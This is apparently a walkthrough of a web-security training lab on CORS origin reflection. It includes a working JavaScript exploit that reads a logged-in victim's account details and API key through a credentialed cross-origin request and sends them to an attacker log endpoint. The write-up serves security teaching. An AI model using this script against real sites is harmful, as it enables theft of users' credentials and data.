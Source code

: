 # Lab: CORS vulnerability with basic origin reflection

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/03b3f862-2b7c-4146-8754-42b15e4a1ecf)

## Solution

Log in using the given username and password.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/cef8a3d5-d670-488a-932a-42b3e6a30296)

The apikey is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header which is `true` suggesting that it may support CORS.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/b88f753e-f654-4e23-88ff-9e745b2b0971)

Resubmit it with the added header: `Origin: https://example.com`. The origin is reflected in the `Access-Control-Allow-Origin` header.
![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/da1017ff-c07b-4ab1-88f9-d8a617fa22ac)

go to the exploit server and enter the following script.

```Javascript
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

Click on store and then deliver to the victim.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/0c92b3f4-1e28-44a2-a8fc-f8530ef063e6)

Go to access log and the apikey will be visible in the url.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/4448cafa-7482-4baf-b6be-111f66ae16ea)

Submitthe url in the submit section and finish the lab.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/2e3157de-d72c-4737-a477-6f1abe428cf7)

